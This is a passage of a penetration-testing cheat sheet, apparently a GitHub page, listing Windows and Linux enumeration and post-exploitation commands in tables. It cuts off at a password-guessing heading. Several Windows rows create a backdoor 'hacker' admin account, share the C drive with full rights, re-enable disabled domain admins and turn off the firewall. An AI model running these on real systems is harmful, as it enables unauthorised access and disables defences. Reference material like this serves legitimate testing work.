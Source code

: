| net localgroup administrators /domain | as this was supposed to use localgroup & domain, this actually another way of getting \*current\* domain admins |
| net group “Domain Admins” /domain | Prints the members of the Domain Admins group |
| net group “Enterprise Admins” /domain | Prints the members of the Enterprise Admins group |
| net group “Domain Controllers” /domain | Prints the list of Domain Controllers for the current domain |
| net share | Displays your currently shared SMB entries, and what path\(s\) they point to |
| net session \| find / “\” |  |
| arp –a | Lists all the systems currently in the machine’s ARP table. |
| route print | Prints the machine’s routing table. This can be good for finding other networks and static routes that have been put in place |
| Whoami | View the current user |
| tasklist /v | List processes |
| taskkill /F /IM "cmd.exe" | Kill a process by its name |
| net user hacker hacker /add | Creates a new local \(to the victim\) user called ‘hacker’ with the password of ‘hacker’ |
| net localgroup administrators hacker /add | Adds the new user ‘hacker’ to the local administrators group |
| net share nothing$=C: /grant:hacker,FULL /unlimited | Shares the C drive \(you can specify any drive\) out as a Windows share and grants the user ‘hacker’ full rights to access, or modify anything on that drive.One thing to note is that in newer \(will have to look up exactly when, I believe since XP SP2\) windows versions, share permissions and file permissions are separated. Since we added our selves as a local admin this isn’t a problem but it is something to keep in mind |
| net user username /active:yes /domain | Changes an inactive / disabled account to active. This can useful for re-enabling old domain admins to use, but still puts up a red flag if those accounts are being watched. |
| netsh firewall set opmode disable | Disables the local windows firewall |

**LINUX COMMANDS**

| **Command** | **Description** |
| :--- | :--- |
| apt-get install finger rsh-client jxplorer sipcalc | Finger not installed in Kali by default |
| apt-get install rsh-client | R-tools not installed in Kali by default |
| uname –a | Kernel version |
| cat /etc/&lt;distro&gt;-release | Release version |
| showrev –p | Revision |
| rlogin -l &lt;user&gt;&lt;target&gt; | rlogin |
| rsh &lt;target&gt;&lt;command&gt; | rsh |
| find / -perm +6000 -type f -exec ls -ld {} \; &gt; setuid.txt & | Find setuid binaries |
| finger &lt;username&gt;@&lt;ip&gt; | Retrieve user info |
| mysql -h &lt;ip&gt; -u &lt;user&gt; -p &lt;password&gt; | Connect to mysql |
| oscanner -s &lt;ip&gt; -r &lt;repfile&gt; | Oracle scanner |

**PASSWORD GUESSING**
